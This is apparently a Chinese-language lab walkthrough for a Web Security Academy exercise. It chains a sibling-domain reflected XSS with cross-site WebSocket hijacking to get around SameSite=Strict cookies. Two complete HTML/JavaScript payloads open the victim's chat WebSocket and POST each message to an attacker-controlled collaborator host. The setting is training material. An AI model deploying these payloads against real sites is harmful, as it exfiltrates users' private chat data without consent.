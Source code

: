 这一方法也适用于samesite=strict的网页，当网站鉴权用户的依据只存在于网站cookie而没有任何其他的csrf token辅助时，可以通过构建跨域恶意页面诱导用户点击达成信息泄露等目标。

```
WebSocket是通过HTTP启动的双向、全双工通信协议。它们通常用于流式传输数据和其他异步流量的现代Web应用程序中。最常见的是网站中的聊天机器人

WebSocket是HTML5推出的新协议，是基于TCP的应用层通信协议，它与http协议内容本身没有关系。同时WebSocket 也类似于 TCP 一样进行握手连接，跟 TCP 不同的是，WebSocket 是基于 HTTP 协议进行的握手，它在客户端和服务器之间提供了一个基于单 TCP 连接的高效全双工通信信道.WebSocket连接是通过HTTP发起，通常是长期存在的。消息可以随时向任何一个方向发送，并且本质上不是事务性的。连接通常保持打开和空闲状态，直到客户端或服务器发送消息。

```

Websocket在该题的chat模块内，burp显示如下：

![](https://cdn.jsdelivr.net/gh/IssacL04/IHS@img/img/202308132123749.png)

![](https://cdn.jsdelivr.net/gh/IssacL04/IHS@img/img/202308132124645.png)

查看请求发现，cookie设置了samesite=strict,说明只能同源攻击，但只有session cookie没有anti-csrf token.

![](https://cdn.jsdelivr.net/gh/IssacL04/IHS@img/img/202308132130238.png)

在exploit server中写一个简单的脚本，将请求的详细内容转接到新打开的collaborator窗口中：

```html
<script>
    var ws = new WebSocket('wss://YOUR-LAB-ID.web-security-academy.net/chat');
    ws.onopen = function() {
        ws.send("READY");
    };
    ws.onmessage = function(event) {
        fetch('https://YOUR-COLLABORATOR-PAYLOAD.oastify.com', {method: 'POST', mode: 'no-cors', body: event.data});
    };
</script>
```

![](https://cdn.jsdelivr.net/gh/IssacL04/IHS@img/img/202308132143783.png)

说明确实存在websocket劫持攻击。但由于samesite参数设置，我们必须想办法绕过这一限制，才能同源攻击。在proxy history中寻找可疑的同源域名。发现在chat.js的请求中有一个可疑域名。进入查看：

![](https://cdn.jsdelivr.net/gh/IssacL04/IHS@img/img/202308132145984.png)

![](https://cdn.jsdelivr.net/gh/IssacL04/IHS@img/img/202308132147570.png)

不存在的用户名直接在前端回显了，说明存在XSS漏洞：

![](https://cdn.jsdelivr.net/gh/IssacL04/IHS@img/img/202308132148848.png)

同级域的xss可以取得我们目标网站的信任，那我们可以尝试构造xss+csrf漏洞绕过samesite限制进行跨站点WebSocket劫持。写写一个简单的payload用于劫持websocket的交互信息：

```html
<script>
    var ws = new WebSocket('wss://0a80009c03fe7db380a4121e007700d9.web-security-academy.net/chat');
    ws.onopen = function() {
        ws.send("READY");
    };
    ws.onmessage = function(event) {
        fetch('https://ddus7k7dcgwtn5t1uutzbv9v4maey3.oastify.com', {method: 'POST', mode: 'no-cors', body: event.data});
    };
</script>

```